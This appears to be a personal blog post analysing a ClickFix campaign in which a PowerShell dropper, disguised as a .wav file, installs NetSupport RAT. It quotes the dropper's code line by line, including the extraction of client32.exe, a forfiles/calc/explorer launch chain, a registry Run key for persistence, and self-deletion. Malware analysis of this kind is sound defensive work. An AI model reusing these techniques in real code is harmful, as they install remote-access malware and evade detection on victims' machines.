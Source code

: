 ```yaml
---
layout: post
title:  "NetSupport RAT"
date:   2025-09-09 21:00:00 +1000
categories: malware
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Clickfix NetSupport RAT.

Standard Cloudflare turnstile that leads to a lure to paste a command into windows run.

### Dropper 


### .Wav File

We've got 11.5mbs of a wav file.

When I open it up it is actually a powershell file. 

If we have a look at the clickfix command it actually saves the .wav as a .ps1

I assume this a method to bypass detection mechanisms that may prevent/inspect downloads with certain extensions (proxy).

### .Ps1 File

I'll save the .wav as a .ps1

First glance. Looks like some minor obfuscation. And lots of bytes.

![alt text](/images/ps1_netsupport.PNG)

What I can see:
- Creates a marker file in the /Temp directory as '__init__log'
- Writes some jargon on the screen. Likely to trick the user into thinking it's verifying there identity.
- Defines $LjLSTACGF as a file/file path (Documents/HZze39v1.wav)
- Defines $xϞzzghϞ and assigns it a lot of bits and bytes

Now that weird variable name $xϞzzghϞ. The lightning bolt symbol things is supposedly the greek letter 'Koppa'. Cool I guess.

Let's scroll down and see what else we have

![alt text](/images/ps1_netsupport1.PNG)

Now bit to unpack, I'll go through each line one by one.

`[byte[]]$kKtyJL = $xϞzzghϞ + $mcZΛkϞπ + $RζπrMwGEQi`

Alright we've got the variable $kKtyJL. This looks to consist of the bytes in `xϞzzghϞ`, `mcZΛkϞπ` and `RζπrMwGEQi`

So, when I search for the two unknown variables `mcZΛkϞπ` and `RζπrMwGEQi` they muchlike `xϞzzghϞ` have a bunch of bits and bytes.

So what we are seeing is $kKtyJL now contains all the bytes from those three variables. So currently that is our payload/bytes we want to track further down this script.

`[IO.File]::WriteAllBytes($LjLSTACGF, $kKtyJL)`

So here it is writing the raw bytes of `$kKtyJL` to the variable `$LjLSTACGF` which if you remember from earlier is the filepath `Documents\HZze39v1.wav`.

`$weBRvm = [IO.Path]::ChangeExtension($LjLSTACGF, 'zip')`
`Rename-Item -Path $LjLSTACGF -NewName (Split-Path $weBRvm -Leaf) -Force -ErrorAction SilentlyContinue`

`$weBRvm` sets the new desired file path `Documents\HZze39v1.zip`

And the second line of code actually renames the file `HZze39v1.wav` to `HZze39v1.zip`

`$CRKaNcWH = Join-Path (Join-Path $env:USERPROFILE 'Documents') 'PwNRbgjSHr'`
`if (-not (Test-Path $CRKaNcWH)) { New-Item -ItemType Directory -Path $CRKaNcWH | Out-Null }`

These two lines create a folder in Documents called `PwNRbgjSHr`

So now in documents we have two modifications made by the script:
- `Documents\HZze39v1.zip` (re-naming and creation of .zip with bytes inside) ($weBRvm)
- `Documents\PwNRbgjSHr` (creation of folder) ($CRKaNcWH)

Bloody tough tracking all these varibles. But, we are interested in `$weBRvm` as that has the bytes!

`try { (Get-Item $CRKaNcWH).Attributes = 'Hidden' } catch { }`

Attempts to make the `Documents\PwNRbgjSHr` hidden.

`Start-Sleep (Get-Random -Min 3 -Max 6)`

Has a breather. Everyone needs a timeout.

`Expand-Archive -Path $weBRvm -DestinationPath $CRKaNcWH -Force`

Expands the contents of `$weBRvm` and writes it to the path `$CRKaNcWH`

`Remove-Item $weBRvm -Force -ErrorAction SilentlyContinue`

Removes evidence of `$weBRvm`

It now lives in here `Documents\PwNRbgjSHr`

`$ziπbKVG = Join-Path $CRKaNcWH 'client32.exe'`

Creates a new variable `$ziπbKVG` and writes the bytes of our payload stored in `Documents\PwNRbgjSHr` to an .exe named `client32.exe`

`Start-Sleep 10`

Has another breather. Gee whiz this script must be working hard.

![alt text](/images/ps1_netsupport3.PNG)

Creates a few new variables here:
- `$wd` is `Documents\PwNRbgjSHr\client32.exe` file
- `$exe` is now `Documents\PwNRbgjSHr\client32.exe`
- `$quoted` is now `Documents\PwNRbgjSHr\client32.exe` which some character spaces either side.

`$cmdline` is assigned the string `'forfiles /p C:\Windows\System32 /m calc.exe /c "cmd /c start \"\" \"C:\Windows\explorer.exe\" ' + $quoted + ' \""'`

Well, this is new.

Forfiles.exe (windows binary) finds calc.exe (windows binary) which in turn opens explorer.exe (windows binary) to run `$quoted` which is `Documents\PwNRbgjSHr\client32.exe`

`cmd.exe /c $cmdLine`

Then it is ran using cmd.exe

![alt text](/images/ps1_netsupport4.PNG)

Now this is cool. Creates a run key in registry for `$ziπbKVG` which is `client32.exe`

Names it 'SecureModule'. Epic.

`try { Remove-Item -Path $MyInvocation.MyCommand.Path -Force } catch {}`

Last but not least! Cleanup! 

Deletes the file from disk. That being the script we ran wayyyyy back at the start.

### Client32.exe

So let's try print out our payload `client32.exe` and whack it into some analysis tools. 

But first I've got to build it safely.

![alt text](/images/ps1_netsupport5.PNG)

I've commented out a bunch of code and renamed it to understand it. But essentially I'm building the file with the bytes and naming it `nothanks.zip`

Lets extract and peek inside.

![alt text](/images/netsupport_folder.PNG)

What we have here is NetSupport RAT.

Which is an RAT created by "netsupportsoftware.com" that has been re-purposed and used for nefarious reaosns.

![alt text](/images/netsupport_hash.PNG)

The hash lights up like a christmas tree in VT.

What makes this really cool is 

![alt text](/images/netsupport_strings.PNG)

Running strings on 'Client32.exe' shows the author 'netsupportsoftware.com'

None of this looks encrypted/obfuscated. So I'll open up DnSpy and see what we can see.

### Attribution